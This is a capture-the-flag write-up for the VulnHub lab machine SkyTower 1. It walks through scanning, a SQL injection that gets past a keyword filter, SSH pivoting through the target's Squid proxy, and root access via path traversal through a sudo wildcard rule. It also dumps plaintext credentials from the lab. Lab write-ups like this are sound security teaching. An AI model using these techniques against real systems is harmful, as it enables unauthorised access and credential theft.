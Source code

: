 # Information

- Name: Sky Tower 1
- Date Release: 26 Jun 2014
- Author: Telspace
- Series: SkyTower
- Platform: VulnHub
- Link: https://www.vulnhub.com/entry/skytower-1,96/
- Difficulty: Easy-Intermediate

# Write Up
## Enum
### Host Discovery
Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools). In this lab, the machine ip is _10.0.2.20_.
```Console
# python arpScan.py -r 10.0.2.0/24 -m 2
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:dd:df:dc 10.0.2.3
[*] 08:00:27:54:4a:37 10.0.2.20

```
### Port Scanning 
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools) and nmap. _portScan_report that are open 2 ports:
```Console
# python portScanner.py -i 10.0.2.20   
[*] Port 80 (http) open
[*] Port 3128 (unknown) open
```
With nmap lets check the version and filtered ports:
```Console
# nmap -sS -p- -Pn -n --min-rate 5000 10.0.2.20
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-04 19:51 CEST
Nmap scan report for 10.0.2.20
Host is up (0.00017s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
3128/tcp open     squid-http
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)
``` 
```Console
# nmap -sV -p80,3128 -oN portScanning 10.0.2.20
Nmap scan report for 10.0.2.20 (10.0.2.20)
Host is up (0.00038s latency).

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.2.22 ((Debian))
3128/tcp open  http-proxy Squid http proxy 3.1.20
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)

```

So there are a proxy, web and filtered ssh that maybe is accesible via proxy.

### Web
There is a login in _index.html_:
![Index](images/index.png)

But, first, lets do fuzzing with _gobuster_ to discover hidden directories and files:
```Console
# gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.2.20 -x .php,.txt,-html -t 100 -o fuzzing_index_proxy      
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.20
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,-html
[+] Timeout:                 10s
===============================================================
2022/09/04 19:57:04 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 1136]
/login.php            (Status: 200) [Size: 21]  
/background           (Status: 200) [Size: 2572609]
/background2          (Status: 200) [Size: 2831446]
/server-status        (Status: 403) [Size: 290]
```

Nothing interesting, let's try SQLi with ':
![SQLi Error](images/sqli_error.png)
## Exploitation
After a few attempts, I have noticed that there is a filter. For example, the strings 'or','select', ... are filtered. So, let's try with 'OorR' because the filter is going to remove 'or' and will leave the string 'OR'. The injection is as follows:

```sql
' OorR 1=1#
```

And is successful:

![sqli](sqli.png)

So we have ssh credentials. Let's add the proxy to proxychains:
```Console
# sudo echo "http 10.0.2.20 3128" >> /etc/proxychains4.conf 
# tail -n 3 /etc/proxychains4.conf                         

# defaults set to "tor"
#socks4         127.0.0.1 9050
http 10.0.2.20 3128

```

```Console
# proxychains4 ssh john@10.0.2.20
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.0.2.20:3128  ...  10.0.2.20:22  ...  OK
john@10.0.2.20's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep  4 11:52:57 2022 from 10.0.2.20

Funds have been withdrawn
Connection to 10.0.2.20 closed.

```
Now the connection is closed, for bypass this append /bin/bash:

```Console
# proxychains4 ssh john@10.0.2.20 /bin/bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.0.2.20:3128  ...  10.0.2.20:22  ...  OK
john@10.0.2.20's password: 
whoami
john
id
uid=1000(john) gid=1000(john) groups=1000(john)

```
## Privilege Escalation
In _login.php_ there are credentials for mysql (note: i can't get a full tty):

```Console
cat /var/www/login.php
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
...
...
...

```

Let's dump the database (mysql return me error if i dont put the input in command line):

```Console
# mysql -uroot -proot -e "use SkyTech; show tables;"
Tables_in_SkyTech
login
# mysql -uroot -proot -e "use SkyTech; select * from login;"
id      email   password
1       john@skytech.com        hereisjohn
2       sara@skytech.com        ihatethisjob
3       william@skytech.com     senseable
```
Let's try login with new users:

```Console
proxychains4 ssh sara@10.0.2.20 /bin/bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.0.2.20:3128  ...  10.0.2.20:22  ...  OK
sara@10.0.2.20's password: 
whoami
sara
id
uid=1001(sara) gid=1001(sara) groups=1001(sara)
sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*

```
The creds for sara are correct but williams creds didn't work. Sara can execute as sudo cat and ls on /accounts. So, we can execute ls and cat on /root using _.._ for parent directory:

```Console
# sudo ls /accounts/../root
flag.txt
# sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
